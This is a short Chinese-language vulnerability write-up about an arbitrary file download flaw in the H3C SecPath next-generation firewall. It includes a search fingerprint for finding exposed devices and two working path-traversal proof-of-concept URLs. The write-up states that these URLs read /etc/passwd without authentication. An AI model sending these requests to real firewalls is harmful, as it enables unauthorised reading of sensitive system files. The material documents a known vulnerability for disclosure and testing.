 # H3C SecPath下一代防火墙 sys_dia_data_check 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>H3C SecPath</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Web user login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210604115315360.png)



存在漏洞点的功能有两个



![img](../../../.vuepress/public/img/image-20210604115351314.png)



点击下载抓包更改请求



![img](../../../.vuepress/public/img/image-20210604115431531.png)



并且在未身份验证的情况中，也可以请求下载敏感文件，验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```